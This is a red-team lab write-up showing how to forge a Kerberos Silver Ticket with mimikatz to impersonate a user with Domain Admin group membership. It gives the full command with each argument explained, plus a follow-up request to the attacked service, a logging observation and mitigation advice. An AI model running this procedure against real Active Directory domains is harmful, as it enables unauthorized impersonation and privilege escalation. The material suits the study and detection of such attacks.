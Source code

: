 ```yaml
---
description: Credential Access
---
```


# Kerberos: Silver Tickets

This lab looks at the technique of forging a cracked TGS Kerberos ticket in order to impersonate another user and escalate privileges.

This lab builds on the explorations in [T1208: Kerberoasting](./) where a TGS ticket got cracked.

## Execution

I will be using mimikatz to create a Kerberos Silver Ticket - forging/rewriting the cracked ticket with some new details that benefit the me as an attacker. 

Below is a table with values supplied to mimikatz explained and the command itseld:

| Argument | Notes |
| :--- | :--- |
| /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 | SID of the current user who is forging the ticket. Retrieved with `whoami /user` |
| /target:dc-mantvydas.offense.local | server hosting the attacked service for which the TGS ticket was cracked |
| /service:http | service type being attacked |
| /rc4:a87f3a337d73085c45f9416be5787d86 | NTLM hash of the password the TGS ticket was encrypted with. `Passw0rd` in our case |
| /user:beningnadmin | Forging the user name. This is the user name that will appear in the windows security logs - fun. |
| /id:1155 | Forging user's RID |
| /ptt | Instructs mimikatz to inject the forged ticket to memory to make it usable immediately |

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
mimikatz # kerberos::golden /sid:S-1-5-21-4172452648-1021989953-2368502130-1105 /domain:offense.local /ptt /id:1155 /target:dc-mantvydas.offense.local /service:http /rc4:a87f3a337d73085c45f9416be5787d86 /user:beningnadmin
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![Getting a user&apos;s SID](../../.gitbook/assets/silver-tickets-whoami.png)

Creating the ticket with mimikatz and checking available tickets in memory with `klist` - note how the ticket specified our new client `benignadmin`

![](../../.gitbook/assets/silver-tickets-generated-ticket%20%282%29.png)

Note in the above mimikatz window the Group IDs which the fake user `benignadmin` is now a member of due to the forged ticket:

| GID | Group Name |
| :--- | :--- |
| 512 | Domain Admins |
| 513 | Domain Users |
| 518 | Schema Admins |
| 519 | Enterprise Admins |
| 520 | Group Policy Creator Owners |

![](../../.gitbook/assets/silver-tickets-groups.png)

Initiating a request to the attacked service with a TGS ticket:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
Invoke-WebRequest -UseBasicParsing -UseDefaultCredentials http://dc-mantvydas.offense.local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/silver-tickets-httprequest.png)

## Observations

Note a network logon from `benignadmin` as well as forged RIDs:

![](../../.gitbook/assets/silver-tickets-4624%20%281%29.png)

It is better not to use user accounts for running services on them or if you do use them, make sure to use really strong passwords! Computer accounts generate long and complex passwords and they change frequently or follow good practices such as using [Group Managed Service Accounts](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh831782%28v=ws.11%29) for running services on.

{% embed data="{\"url\":\"https://blog.stealthbits.com/impersonating-service-accounts-with-silver-tickets\",\"type\":\"link\",\"title\":\"Impersonating Service Accounts with Silver Tickets \| Insider Threat Blog\",\"description\":\"How attackers use Kerberos silver tickets to exploit service accounts without creating network traffic or event logs to avoid detection.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2016/06/cropped-Logo\_STEALTHbits\_Orb\_Blue\_250x250-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2017/05/Banner-Blog-Series-1024-x-326-2.jpg\",\"width\":1024,\"height\":326,\"aspectRatio\":0.318359375}}" %}

{% embed data="{\"url\":\"https://adsecurity.org/?p=2011\",\"type\":\"link\",\"title\":\"How Attackers Use Kerberos Silver Tickets to Exploit Systems – Active Directory Security\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://adsecurity.org/wp-content/uploads/2015/11/SilverTicket-DC-CIFS.png\",\"width\":600,\"height\":173,\"aspectRatio\":0.28833333333333333}}" %}

